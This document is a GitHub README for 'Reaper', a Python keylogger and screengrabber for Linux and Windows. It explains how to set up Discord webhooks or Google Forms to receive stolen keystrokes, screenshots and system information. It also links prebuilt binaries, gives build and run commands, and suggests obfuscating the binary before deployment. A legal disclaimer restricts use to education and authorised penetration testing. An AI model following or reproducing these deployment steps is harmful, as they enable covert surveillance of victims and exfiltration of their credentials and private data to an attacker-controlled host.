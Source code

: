 # Reaper - A multi-platform keylogger and screengrabber

![Python Version](https://img.shields.io/badge/python-3.9+-blue?style=for-the-badge&logo=python)
[![CodeFactor Grade](https://img.shields.io/codefactor/grade/github/EONRaider/BCA-Reaper?label=CodeFactor&logo=codefactor&style=for-the-badge)](https://www.codefactor.io/repository/github/EONRaider/BCA-Reaper)
![OS](https://img.shields.io/badge/GNU%2FLinux-red?style=for-the-badge&logo=linux)
![OS](https://img.shields.io/badge/Windows-blue?style=for-the-badge&logo=windows)

[![Reddit](https://img.shields.io/badge/Reddit-EONRaider-FF4500?style=flat-square&logo=reddit)](https://www.reddit.com/user/eonraider)
[![Discord](https://img.shields.io/badge/Discord-EONRaider-7289DA?style=flat-square&logo=discord)](https://discord.gg/KVjWBptv)
[![Twitter](https://img.shields.io/badge/Twitter-eon__raider-38A1F3?style=flat-square&logo=twitter)](https://twitter.com/intent/follow?screen_name=eon_raider)

Reaper is a **multi-platform keylogger, screengrabber and information gatherer** 
written in Python 3. Binaries for Linux and Windows platforms can be built through 
an embedded script that executes PyInstaller.

All captured data is exfiltrated to a **Discord** server and/or **Google Forms** instance through HTTPS.

Linux and Windows binaries are [available](https://github.com/EONRaider/BCA-Reaper/tree/master/dist) 
for portability and ease of execution.

## Demo
![demo]()

## Setup and Build
The only requirements to set up and build are (I) a free Discord server and/or a 
Google Forms instance and (II) building the binary with the URLs as arguments.

### I. Set up a Discord server and/or Google Forms instance
You need at least one of the methods for successful exfiltration.
- **Discord:** Head over to https://www.discord.com and create a new Discord account and 
server, if necessary. [Create a Webhook URL](https://www.digitalocean.com/community/tutorials/how-to-use-discord-webhooks-to-get-notifications-for-your-website-status-on-ubuntu-18-04) 
for any suitable channel and copy the URL.

  ![webhook_Setup](https://github.com/EONRaider/static/blob/49511f621c43ce8a9fac138fa4b14f369edf6cbf/reaper/webhook_setup.png)

- **Google Forms:** Create a form on https://docs.google.com/forms with a free Google account. 
Set up as many questions as you need, with any names. Copy the form URL and that's it. *The 
exfiltration works as long as the answer field for the first question is of type **Paragraph**.*

  ![forms_setup](https://github.com/EONRaider/static/blob/9842916f424823ae8d72f8cd0e73a66371b9bcc7/reaper/forms_setup.png)

### II. Execute
[Download the binaries for Linux/Unix or Windows systems](https://github.com/EONRaider/BCA-Reaper/tree/master/dist) 
from the dist directory and run them with the URLs of your Discord server or Google Forms instance.
```shell
./linux_reaper --webhook YOUR-WEBHOOK-URL --forms YOUR-FORM-URL
```
The same procedure works for the Windows binary.

### III. (Optional) Build your own binary
What if you need a binary ready to exfiltrate to your own **preset Discord and 
GoogleForms URLs** without setting them from the command line?

Building the binary allows you to do just that. You just need to install all dependencies and build. 
Dependency management works with both [Poetry](https://python-poetry.org/) (recommended) and [Virtualenv](https://virtualenv.pypa.io/en/latest/). 
```shell
git clone https://github.com/EONRaider/BCA-Reaper.git
cd BCA-Reaper
poetry install <--or--> pip install -r requirements.txt
```

With all dependencies in place the `build.py` file takes care of the rest.
```shell
python build.py --webhook YOUR-WEBHOOK-URL --forms YOUR-FORM-URL
```
The result is a binary file named `OS-NAME_reaper` that is ready to exfiltrate to your preset URLs 
on execution. Optionally obfuscate and deploy in accordance with your threat emulation activity's ROE. Refer 
to the [Legal Disclaimer](https://github.com/EONRaider/BCA-Reaper/tree/master#legal-disclaimer) 
below.

## Usage
```
usage: reaper.py [-h] [-w <webhook_url>] [-f <google_forms_url>] [-e <seconds>]

BCA Reaper - Log keystrokes, take screenshots and grab system information from a target host 
and exfiltrate to Discord and Google Forms

optional arguments:
  -h, --help            show this help message and exit
  -w <webhook_url>, --webhook <webhook_url>
                        URL of a Webhook for the Discord server.
  -f <google_forms_url>, --forms <google_forms_url>
                        URL of a remote instance of Google Forms.
  -e <seconds>, --exfil-time <seconds>
                        Time in seconds to wait between periodic executions of the exfiltration 
                        of logged data. Defaults to 30 seconds. Set to None to perform a 
                        single operation.
```

## Legal Disclaimer

The use of code contained in this repository, either in part or in its totality,
for engaging targets without prior mutual consent is illegal. **It is
the end user's responsibility to obey all applicable local, state and
federal laws.**

Developers assume **no liability** and are not
responsible for misuses or damages caused by any code contained
in this repository in any event that, accidentally or otherwise, it comes to
be utilized by a threat agent or unauthorized entity as a means to compromise
the security, privacy, confidentiality, integrity, and/or availability of
systems and their associated resources. In this context the term "compromise" is
henceforth understood as the leverage of exploitation of known or unknown vulnerabilities
present in said systems, including, but not limited to, the implementation of
security controls, human- or electronically-enabled.

The use of this code is **only** endorsed by the developers in those
circumstances directly related to **educational environments** or
**authorized penetration testing engagements** whose declared purpose is that
of finding and mitigating vulnerabilities in systems, limiting their exposure
to compromises and exploits employed by malicious agents as defined in their
respective threat models.
